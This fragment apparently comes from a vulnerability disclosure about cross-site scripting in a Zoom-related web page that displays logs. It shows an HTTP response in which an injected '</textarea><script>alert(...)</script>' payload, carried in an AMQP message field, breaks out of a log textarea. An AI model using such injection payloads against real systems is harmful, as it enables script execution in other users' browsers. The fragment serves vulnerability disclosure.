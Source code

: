 Response:
```
HTTP/1.1 200 OK
Date: Mon, 28 Oct 2019 09:33:47 GMT
Server: Apache
Content-Type: text/html;charset=utf-8
Vary: Accept-Encoding
Content-Length: 37074

***TRUNCATED***

                <textarea id="copytext">
                    fa329ff3700] ucl.threads.BoostThread - Thread process threw error: Opening TCP socket to [amqp://<IP>:5672]: a socket error occurred
Oct 24 10:11:31 ERROR [0x7fa3297f2700] ucl.threads.BoostThread - Thread process threw 

***TRUNCATED***

Oct 24 15:17:44 WARN  [0x7fa3137fe700] ucl.rec.RecorderRequestsHandler - Failed to get recording message for received amqp message: AmqpMessage{priority:0,delivery_mode:1,payload:</textarea><script>alert('index_frame.jsp - Log Textarea')</script>}

                </textarea>
```
![](Zoom-XSS(9).png)